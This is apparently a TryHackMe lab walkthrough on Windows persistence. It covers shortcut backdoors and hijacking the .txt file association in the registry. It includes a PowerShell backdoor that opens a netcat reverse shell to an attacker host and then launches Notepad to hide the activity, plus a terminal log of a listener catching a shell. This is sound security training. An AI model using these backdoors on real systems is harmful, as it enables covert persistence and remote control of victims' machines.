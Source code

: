 	If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully. 
	THM flagExecute C:\flags\flag5.exe from your reverse shell to get your flag!

Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under HKLM\Software\Classes\. Let's say we want to check which program is used to open .txt files; we can just go and check for the .txt subkey and find which Programmatic ID (ProgID) is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/3ae1b8356b38a349090e836026d6d480.png)

	We can then search for a subkey for the corresponding ProgID (also under HKLM\Software\Classes\), in this case, txtfile, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under shell\open\command where the default command to be run for files with that extension is specified:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c3565cf93de4990f41f41b25aed80571.png)

	In this case, when you try to open a .txt file, the system will execute %SystemRoot%\system32\NOTEPAD.EXE %1, where %1 represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to C:\Windows\backdoor2.ps1:

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

	Notice how in Powershell, we have to pass $args[0] to notepad, as it will contain the name of the file to be opened, as given through %1.

Now let's change the registry key to run our backdoor script in a hidden window:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f7ed25a701cf20ea85cf333b20708ffe.png)

	Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.
	THM flagOnce you have backdoored the .txt file handler and spawned a reverse shell, run C:\flags\flag6.exe to get a flag!


```
──(kali㉿kali)-[~/payloads]
└─$ ls
index.raw  launcher.bat  liv0ff.ps1  live0fftheland.dll  payload.hta  thm.hta


Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.11.81.220 4445"

C:\Windows\System32\calc.exe


┌──(kali㉿kali)-[~/payloads]
└─$ nc -lvp 4445        
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:49732.
Microsoft Windows [Version 10.0.17763.1821]
```